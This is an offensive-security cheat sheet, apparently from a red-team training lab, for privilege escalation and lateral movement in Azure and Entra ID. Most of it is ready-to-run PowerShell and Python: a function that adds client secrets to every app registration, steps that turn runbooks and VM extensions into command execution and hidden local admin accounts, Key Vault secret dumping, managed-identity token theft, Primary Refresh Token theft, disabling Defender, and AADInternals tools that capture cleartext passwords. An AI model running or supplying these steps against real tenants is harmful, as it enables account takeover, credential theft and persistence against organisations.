





# Privesc and lateral movement

## Adding secrets to service principals

The simplest way to check if an user can abuse its permissions over a service principal is to try to add secrets to it.

To perform this operation the following script along a graph token is required:

```powershell
Function Add-AzADAppSecret
{

<#
    .SYNOPSIS
        Add client secret to the applications.

    .PARAMETER GraphToken
        Pass the Graph API Token 

    .EXAMPLE
        PS C:\> Add-AzADAppSecret -GraphToken 'eyJ0eX..'

    .LINK
        https://docs.microsoft.com/en-us/graph/api/application-list?view=graph-rest-1.0&tabs=http
        https://docs.microsoft.com/en-us/graph/api/application-addpassword?view=graph-rest-1.0&tabs=http
#>

    [CmdletBinding()]
    param(
    [Parameter(Mandatory=$True)]
    [String]
    $GraphToken = $null
    )

    $AppList = $null
    $AppPassword = $null

    # List All the Applications


    $Params = @{
     "URI"     = "https://graph.microsoft.com/v1.0/applications"
     "Method"  = "GET"
     "Headers" = @{
     "Content-Type"  = "application/json"
     "Authorization" = "Bearer $GraphToken"
     }
    }

    try
    { 
        $AppList = Invoke-RestMethod @Params -UseBasicParsing
    }
    catch
    {
    }

    # Add Password in the Application

    if($AppList -ne $null)
    {
        [System.Collections.ArrayList]$Details = @()

        foreach($App in $AppList.value)
        {
            $ID = $App.ID
            $psobj = New-Object PSObject

            $Params = @{
             "URI"     = "https://graph.microsoft.com/v1.0/applications/$ID/addPassword"
             "Method"  = "POST"
             "Headers" = @{
             "Content-Type"  = "application/json"
             "Authorization" = "Bearer $GraphToken"
             }
            }

            $Body = @{
              "passwordCredential"= @{
                "displayName" = "Password"
              }
            }
 
            try
            {
                $AppPassword = Invoke-RestMethod @Params -UseBasicParsing -Body ($Body | ConvertTo-Json)
                Add-Member -InputObject $psobj -NotePropertyName "Object ID" -NotePropertyValue $ID
                Add-Member -InputObject $psobj -NotePropertyName "App ID" -NotePropertyValue $App.appId
                Add-Member -InputObject $psobj -NotePropertyName "App Name" -NotePropertyValue $App.displayName
                Add-Member -InputObject $psobj -NotePropertyName "Key ID" -NotePropertyValue $AppPassword.keyId
                Add-Member -InputObject $psobj -NotePropertyName "Secret" -NotePropertyValue $AppPassword.secretText
                $Details.Add($psobj) | Out-Null
            }
            catch
            {
                Write-Output "Failed to add new client secret to '$($App.displayName)' Application." 
            }
        }
        if($Details -ne $null)
        {
            Write-Output ""
            Write-Output "Client secret added to : " 
            Write-Output $Details | fl *
        }
    }
    else
    {
       Write-Output "Failed to Enumerate the Applications."
    }
}

```

Usage is simple

```powershell
Add-AzADAppSecret -GraphToken {{ Token eyJ0eX... }} -Verbose
```

Connect to Azure as a service principal

```powershell
# Connect as fileapp service principal
$passwd = ConvertTo-SecureString "{{ Secret secret }}" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("{{ ServicePrincipalID serviceprincipalid}}", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant {{ TenantId tenantid}}
```

Then we can relaunch the enumeration phase:

```powershell
# List resources
Get-AzResource

# List secrets in keyvault
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }}

# Access keyvault
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }} -Name {{ SecretName secretname }}-AsPlainText
```

## Automation abuse

The group automation admins is interesting, we can list the owned objects for a user:

```powershell
az ad signed-in-user list-owned-objects
# Example output
#{
#    "deletionTimestamp": null,
#    "description": "Members can create and run runbooks",
#    "dirSyncEnabled": null,
#    "displayName": "Automation Admins",
#    [...]
```

A user who owns a group but is not member of a group can make itself member of the group

```powershell
Add-AzureADGroupMember -ObjectId {{ UserId userid }} -RefObjectId {{ Group object }} -Verbose
```

Once the user belongs to Authomation Admins it can list automations

```powershell
az automation account list
```

Let's switch to Az powershell module 

```powershell
# Get token for ARM
az account get-access-token
$AccessToken = 'eyJ0...'

Connect-AzAccount -AccessToken $AccessToken -GraphAccessToken $AADToken -AccountId f66e133c-bd01-4b0b-b3b7-7cd949fd45f3
```

Enumerate the automations

```powershell
# Get role for the user in the automation
Get-AzRoleAssignment -Scope {{ AutomationId /subscriptions/{subs}/resourceGroups/{rg}/providers/Microsoft.Automation/automationAccounts/{name} }}
# Best output:
# RoleDefinitionName : Contributor

# Check if automation has any HybridWorker
Get-AzAutomationHybridWorkerGroup -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }}
```

An hybrid worker is when a Runbook is to be run on a non-azure machine.

With contributor access in the automation it is possible to execute commands in the infrastructure

```powershell
# Create runbook with a custom powershell that is a reverse shell
Import-AzAutomationRunbook -Name {{ AutoName autoname }} -Path {{ Path_script path }} -AutomationAccountName {{ AutomationAccountName automationaccountname }} - ResourceGroupName {{ ResourceGroupName resourcegroupname }} -Type PowerShell -Force -Verbose
# Publish
Publish-AzAutomationRunbook -RunbookName {{ AutoName autoname }} -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }} - Verbose
# Start 
Start-AzAutomationRunbook -RunbookName {{ AutoName autoname }} -RunOn Workergroup1 -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }} -Verbose
```

## Compromise Azure VM to dump credentials

In this scenario we have access to an Azure VM and we want to dump the credentials for the machine

```powershell
# Get NetworkProfile of the machine
Get-AzVM -Name {{ MachineName machinename }} -ResourceGroupName {{ ResourceGroup resourcegroup }} | select -ExpandProperty NetworkProfile | fl

# Get information about the network interface
Get-AzNetworkInterface -Name {{ InterfaceName interfacename}

# Get public IP
Get-AzPublicIpAddress -Name {{ InterfaceName interfacename}}
```

Once we know the interface we can craft a file to add a local administrator user

```powershell
$passwd = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
New-LocalUser -Name {{ Name username }} -Password $passwd
Add-LocalGroupMember -Group Administrators -Member {{ Name username }}
```

Now the command can be ran in the Azure VM

```powershell
Invoke-AzVMRunCommand -VMName {{ VMName }} -ResourceGroupName {{ ResourceGroup resourceGroup }} -CommandId 'RunPowerShellScript' -ScriptPath 'adduser.ps1' -Verbose
```

A powershell session can be used to connect, run commands or transfer files:

```powershell
$password = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('{{ Name username }}', $Password)
$sess = New-PSSession -ComputerName {{ IP }} -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
    
    # Juicy information can be found in powershell history
    cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

If we have access to the vm but no password we can try to reset the password as well

```powershell
$password = "{{ Password password }}" | ConvertTo-SecureString -AsPlainText –Force
(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq "{{ UserMail user@domain.com }}"}).ObjectId | Set-AzureADUserPassword -Password $Password –Verbose
```

## Dumping keyvaults

With a token to management.azure.com and other to vault.azure.net we can try to access the keyvaults and read its contents

```powershell
$armToken = '{{ ARMToken eyJ0eX }}'
$vaultToken = '{{ VaultToken eyJ0eX }}'

Connect-AzAccount -AccessToken $armToken -AccountId {{ AccountId }} -KeyVaultAccessToken $vaultToken

# List keyvaults
Get-AzKeyVault

# Get role 
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname}}

# Get secret plain
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }} -Name {{ SecretName secretname }} –AsPlainText
```

## Bypass device conditional access

There are some service principals that could be only accessible using determined devices, for example a mobile phone or an IP. In any case, after the token is created it can be used from anywhere.

  

There are other little tricks that allow to access a service principal protected by a conditional access policy, for example if we have a policy that only allows access from mobile phones, it can be bypassed changing the user agent in Chrome dev tools.

  

## Abusing GitHub to compromise Azure

If the deployment of GitHub code is automated it could be possible to leverage this to gain remote command execution in the Azure host and extract the token.

```python
import logging
import os

import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.') 
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT'] 
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

    cmd = 'curl "%s?resource=https://management.azure.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = os.popen(cmd).read()

    return func.HttpResponse(val, status_code=200)
```

Deployment templates can have interesting information

```powershell
Get-AzResourceGroup

# Check if can read deployment
Get-AzResourceGroupDeployment -ResourceGroupName {{ ResourceGroupName resourcegroup}}

# Save deployment
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName {{ ResourceGroupName resourcegroup}}} -DeploymentName {{ DeploymentName deploymentname}}
# look for commandToExecute
```

## VM metadata harvesting

If we have access to a compromised VM in the Azure infrastructure there is a good chance that the machine could have another user's credentials. First we log in into the machine

```powershell
# Connect to jumpvm
$password = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('{{ Username username}}', $password)
$session = New-PSSession -ComputerName {{ IP ip }} -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $session
```

The metadata service of Azure could contain userdata that can be used by the vm so it might be worth checking it

```powershell
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

## Abusing extensions to compromise vms

If an user has read and write permissions for extensions on a vm it can execute code in such vm. To check this we can use the arm api:

```powershell
# List actions allowed for a resource
$Token = '{{ Access_token eyJ0eXA...}}'
$URI = 'https://management.azure.com/{{ ResourceId subscriptions/{id}/resourceGroups/{rg}/providers/Microsoft.Compute/virtualMachines/{name}/providers/Microsoft.Authorization/permissions }}?api-version=2015-07-01'
$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod @RequestParams).value
```

Expected output will be:

```
{Microsoft.Compute/virtualMachines/extensions/write, Microsoft.Compute/virtualMachines/extensions/read} {}
```

We can query if a vm has extensions

```powershell
Get-AzVMExtension -ResourceGroupName "{{ ResourceGroup resourcegroup }}" -VMName "{{ VMName vmname }}"
```

We can create a new extension or perhaps modify the command of another extension to be more stealthy

```powershell
# Change extension command with a new one
Set-AzVMExtension -ResourceGroupName "{{ ResourceGroup resourcegroup }}" -ExtensionName "{{ ExtensionName ExecCmd}}" -VMName "{{ VMName vmname }}" -Location "{{ Location Germany West Central }}" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"{{ Command powershell net users student4 Stud4Password@123 /add /Y; net localgroup administrators student4 /add }}"}'
```

We can then connect to the machine (maybe using a jumpvm)

```powershell
$password = ConvertTo-SecureString 'Stud4Password@123' -AsPlainText -Force
# .\student4 is a local user
$creds = New-Object System.Management.Automation.PSCredential('.\student4', $password)
$infradminsrv = New-PSSession -ComputerName {{ IP ip }} -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)

# We cannot enter another session from one powershell session
# Enter-PSSession -Session $infradminsrv
Invoke-Command -Session $infradminsrv -ScriptBlock{hostname}

# Check that it was joined to azuread
Invoke-Command -Session $infradminsrv -ScriptBlock{dsregcmd /status}
```

## Pass the PRT (Primary Refresh Token)

PRT is a special refresh token used for single sign-on that can be used to obtain access and refresh tokens to any appplication; is issued to a user for a specific device and is valid for 90 days and continuously renewed.

To dump the PRT for an user session in a azure joined vm we need a set of tools:

1. **ROADToken.exe** (from [dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken)) - Obtains a PRT token/cookie
2. **PsExec64.exe** (from [Sysinternals](https://live.sysinternals.com)) - Allows executing commannds remotely in another machine (useful due to powershell invoke-command limitations that do not allow interactive sessions to be nested)
3. **SessionExecCommand.exe** (from [KevinJClark/csharptoolbox](https://gitlab.com/KevinJClark/csharptoolbox)]) - Useful in executing process as other users

To copy the tools using a PSSession we can use the following commands:

```powershell
Invoke-Command -Session $infradminsrv -ScriptBlock{mkdir c:\Users\Public\student4}

# Everything has to be in public to have write access
Copy-Item -ToSession $infradminsrv -Path ROADToken.exe -Destination c:\Users\Public\student4 –Verbose
Copy-Item -ToSession $infradminsrv -Path PsExec64.exe -Destination c:\Users\Public\student4 –Verbose
Copy-Item -ToSession $infradminsrv -Path SessionExecCommand.exe -Destination c:\Users\Public\student4 –Verbose
```

In order to gather the PRT we need a nonce that can be requested from any machine

```powershell
# Request Token
$TenantId = "{{ TenantId 2d50cb29-5f7b-48a4-87ce-fe75a941adb6 }}"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"
$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
    "grant_type" = "srv_challenge"
    }
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```

Using the token we can dump the PRT token for a known user in a machine in which we have SYSTEM access (because SessionExecCommand requires SYSTEM privileges):

```powershell
# Run ROADToken.exe in the context of another user using SessionExecCommand.exe with the help of PsExec64.exe.
Invoke-Command -Session {{ PSSession $pssession }} -ScriptBlock{C:\Users\public\student4\PsExec64.exe -accepteula -s "cmd.exe" " /c C:\Users\public\student4\SessionExecCommand.exe {{ User MichaelMBarron }} C:\Users\public\student4\ROADToken.exe {{ Nonce AwAB... }} > C:\Users\public\student4\prt4.txt"}

# Retrieve the output
Invoke-Command -Session {{ PSSession $pssession }} -ScriptBlock{cat C:\Users\public\student4\prt4.txt}
```

Using this commmands we should obtain the `x-ms-RefreshTokenCredential` that is the PRT token and then we can use this token with any browser, first we need ot go to [https://login.microsoftonline.com/login.srf](https://login.microsoftonline.com/login.srf) and remove all the cookies from the browser

Then we create a `x-ms-RefreshTokenCredential` cookie and paste in it the prt token value, also remember to check HTTPOnly and Secure.



If we go to [https://login.microsoftonline.com/login.srf](https://login.microsoftonline.com/login.srf) we should get access as the user Michael

## Abusing Intune Administrator to execute code on all joined devices

The Azure Intune Administrator role allows to execute code in most ad-joined devices; in order to do that we should access to [https://endpoint.microsoft.com/#home ](https://endpoint.microsoft.com/#home) (maybe using a pass the PRT attack)

In "Devices > All Devices" we can check the devices enrolled to Intune.

  

In "Scripts" we can add a new one for Windows 10 for example and assign it to All devices and All users



The execution of this rule takes about an hour so it is useful to add users instead of executing a reverse shell

## Abusing dynamic groups

In Azure there are dynamic groups that can have rules to be added to a new registered user; for example if the newly register user contains an email that starts with `it_` it might be added to a IT group.

In the Azure portal an user with access to the AD can search for Dynamic Groups:



If we acccess the group rules there can be interesting stuff



In this example any user with a secondary email containing vendor will be added to ITOPS; if we have a user with permission to add a guest user and then modify the secondary email can gain access to the vulnerable group.

After inviting an user and accepting the invitation the OtherMails can be changed using the following command:

```powershell
# Note that a user cannot see its object id as it is a guest
Set-AzureADUser -ObjectId {{ ObjectId objectid }} -OtherMails {{ Email mail@mail.com }} -Verbose
```

Sometimes this rule takes several minutes to be executed and add the user to the group.

## Abusing hybrid Enterprise applications via application proxy

Hybrid Enterprise Applications run in an onprem environment but Azure provides authorization and authentication services and a URL to be accessed; first we enumerate all the applications that has proxy configured

```powershell
# Enumerate all applications that has proxy configured
Get-AzureADApplication | %{try{Get-AzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}} | fl

# Get service principal of app
Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "{{ DisplayName displayname }}"} | fl
```

We should check which users and groups are allowed to access the application, in order to do that we can use the following example script found in [Docs Microsoft](https://docs.microsoft.com/en-us/azure/active-directory/app-proxy/scripts/powershell-display-users-group-of-app) to check it.

```powershell
# Load module
. .\Get-ApplicationProxyAssignedUsersAndGroups.ps1

# Find users and groups allowed to access the application
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId {{ ObjectId objectid }}
```

With access to the application we might find some interesting bug that allows to execute code or obtain interesting information

## Abuse ADSyncConnector to obtain credentials from a onprem DC

First we need to check that the machine has an AD Sync Connector installed:

```powershell
# Check if the machine has Azure AD Connect
Get-ADSyncConnector
```

In order to get the credentials we need to upload some tools:

```powershell
Copy-Item -ToSession {{ PSSession $pssession }} -Path C:\AzAD\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents

Enter-PSSession {{ PSSession $pssession }}

Set-MpPreference - DisableRealtimeMonitoring $true
Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
```

To obtain the credentials we can use the imported module

```powershell
# Get cleartext credentials
Get-AADIntSyncCredentials
```

## Abusing PassthroughAuth on a compromised server

Cometimes an onprem Domain Controller is synced with the Azure AD and has PassthroughAuthPSModule enabled to sync. We can check that using the following commands:

```powershell
# Check if the machine has Azure AD Connect
Get-ADSyncConnector

# Check if PTA is installed
Get-Command -Module PassthroughAuthPSModule
```

If it is installed we can use AADInternals to install the PTA Agent

```powershell 
Copy-Item -ToSession {{ PSSession $pssession }} -Path C:\AzAD\Tools\AADInternals.0.4.5.zip -Destination C:\Users\adconnectadmin\Documents

Enter-PSSession {{ PSSession $pssession }}

Set-MpPreference - DisableRealtimeMonitoring $true
Expand-Archive C:\Users\adconnectadmin\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\adconnectadmin\Documents\AADInternals
Import-Module C:\Users\adconnectadmin\Documents\AADInternals\AADInternals.psd1
```

If we install the PTA agent we can configure the machine to accept all onprem users and also see the used passwords

```powershell
# Install PTA agent
Install-AADIntPTASpy

# We can auth as any onprem user and also see correct passwords
Get-AADIntPTASpyLog -DecodePasswords
```

